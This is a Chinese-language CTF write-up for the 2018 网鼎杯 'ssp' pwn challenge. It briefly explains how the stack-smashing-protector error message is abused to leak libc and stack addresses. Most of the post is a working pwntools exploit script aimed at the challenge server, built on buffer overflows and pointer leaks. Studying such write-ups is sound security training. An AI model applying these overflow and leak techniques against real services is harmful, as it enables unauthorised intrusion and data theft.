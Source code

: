 ```yaml
---
title: 网鼎杯第一场SSP
date: 2018-08-24 08:37:40
tags: [CTF, PWN]
categories: 网鼎杯
---
```

# 网鼎杯第一场 ssp wp

​	首先考虑利用ssp进行泄露，由于flag在栈上，直接写循环leak爆破栈地址，失败，之后考虑爆破canary，爆破失败，而且由于只进行三次fork，所以之后内存数据会更新导致无法进一步泄露，所以放弃爆破canary的思路。<!--more-->之后重新考虑ssp，利用ssp泄露libc函数，然后查找得到libc库，之后能得到libc.environ，泄露libc.environ中保存的地址后，gdb调试一下得到buf偏移，计算得到buf真实地址，最后一次输入淹没泄露buf内容,脚本写的太烂，就不放上来了。

exp如下：

```
#encoding=utf-8
from pwn import *
leaksome={'leak':0}
p = remote('106.75.90.160', 9999)
pop_rdi_ret=0x0000000000400c13
strcmp_got=0x00000602050
gets_plt=0x000000000400830
payload='a'*0x128
payload+=p64(0x000000602048)
p.recvuntil('r guessing flag')
p.sendline(payload)
p.recvuntil('detected ***: ')
leak=u64(p.recv(6).ljust(8,'\x00'))
leaksome['leak']=leak
libc_base=leak-0x20740
env_addr=libc_base+0x00000000003c6f38
payload='a'*0x128
payload+=p64(env_addr)
p.recvuntil('r guessing flag')
p.sendline(payload)
p.recvuntil('detected ***: ')
leak=u64(p.recv(6).ljust(8,'\x00'))
leaksome['leak2']=leak
stack_addr=leak
payload='a'*0x128
payload+=p64(stack_addr-0x168)
p.recvuntil('r guessing flag')
p.sendline(payload)
p.recvuntil('detected ***: ')
print p.recv(1024)

```


